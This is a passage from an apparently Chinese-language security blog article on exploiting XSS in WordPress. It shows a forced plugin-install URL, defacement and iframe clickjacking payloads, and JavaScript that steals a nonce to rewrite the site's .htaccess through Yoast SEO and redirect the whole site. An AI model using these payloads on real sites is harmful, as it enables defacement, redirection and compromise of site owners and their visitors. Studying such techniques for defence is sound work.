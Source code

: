 事实上，由于wordpress的特殊性，我们可以通过xss来请求安装插件来简化上面的攻击链，简化整个流程，当我们访问：

```
http://wordpress.site/wp-admin/update.php?action=install-plugin&updraftplus_noautobackup=1&plugin=wp-crontrol&_wpnonce=391ece6c0f
```

wp就会自动安装插件，如果我们将包含恶意代码的模块上传到插件库中，通过上述请求自动安装插件，再启用插件，那么一样可以完整整个攻击。


## xss的破坏式利用

上文中主要是展示了xss配合特性对前端渗透的一些攻击方式，但是很多时候渗透的目的并不一定要隐秘，对于黑产或者其他目的的渗透来说，可能会有一些破坏式的利用方式。

当攻击者的目的并不是为了渗透，而是为了恶作剧、挂黑页，甚至只是为了单纯的搞挂网站，那么就不需要那么复杂的利用链，可以用一些更简单的方法。

```
<img src=//upload.wikimedia.org/wikipedia/commons/f/fd/Hack.png style=width:100%;height:100%>
```

这种方式一般应用于储存性xss漏洞点，比较接近恶作剧性质，因为不会危害到网站安全。

```
<iframe src="xxxxx" style="border:0;position: absolute;top: 0;right: 0;width: 100%;height: 100%" onload="{dom xss}"
```

通过上述payload，我们可以配合xss漏洞来造成点击劫持，或者更复杂的利用方式。这种漏洞一般比较适合新闻类站点的xss漏洞，在wordpress上我没找到合理的利用方式，就不展示demo了，贴一张brutelogic在ppt中的demo截图。

![image.png-432.7kB][11]

红箭头指向的标题是被xss修改后的标题。配合一些社工手段，这样的利用方式可能会造成大于攻击网站本身的破坏。

当然，还可以有更彻底的方式。在wordpress的插件yoast seo中，包含一个自带的功能可以修改整战根目录的.htaccess文件。

通过修改.htaccess，我可以直接让整个站跳到黑页、广告页等，达成我们想要的目的。

```

url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/admin.php?';
q = 'page=wpseo_tools&tool=file-editor';
s = "%23%20BEGIN%20WordPress%0A%3CIfModule%20mod_rewrite.c%3E%0ARedirect%20%2fwordpress4.8%20https%3A%2f%2florexxar.cn%0A%3C%2fIfModule%3E%0A%23%20END%20WordPress";


a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + a.responseText.match(/nonce" value="([^"]*?)"/g)[1].match(/\w+/g)[2] +
'&htaccessnew=' + s + '&submithtaccess=Save+changes+to+.htaccess';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);
```


  [1]: http://static.zybuluo.com/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: http://static.zybuluo.com/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: http://static.zybuluo.com/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: http://static.zybuluo.com/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: http://static.zybuluo.com/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: http://static.zybuluo.com/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: http://static.zybuluo.com/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: http://static.zybuluo.com/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: http://static.zybuluo.com/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: http://static.zybuluo.com/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: http://static.zybuluo.com/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png
